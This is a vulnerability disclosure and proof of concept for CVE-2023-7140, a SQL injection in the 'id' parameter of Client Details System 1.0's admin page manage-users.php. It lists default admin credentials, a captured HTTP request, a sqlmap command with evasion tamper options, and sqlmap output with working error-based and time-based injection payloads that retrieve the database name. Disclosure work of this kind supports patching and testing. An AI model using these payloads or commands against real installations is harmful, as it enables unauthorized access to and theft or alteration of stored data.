 # CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Exploit Title:** CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7140

## References: 
+ **CVE-2023-7140:** https://vuldb.com/?id.249143
+ https://www.cve.org/CVERecord?id=CVE-2023-7140

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'id' in "/clientdetails/admin/manage-users.php?id=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Delete button for any user: "http://localhost/clientdetails/admin/manage-users.php?id=1"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/manage-users.php?id=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/manage-users.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(3346,CONCAT(0x5c,0x716b6a7a71,(SELECT (ELT(3346=3346,1))),0x7171707171))-- gsCH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9169 FROM (SELECT(SLEEP(5)))gCdu)-- FiYL
---
[17:48:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[17:48:57] [INFO] fetching current database
[17:48:57] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/2db1ab40-749f-4e0c-943b-fd362f079d0b)
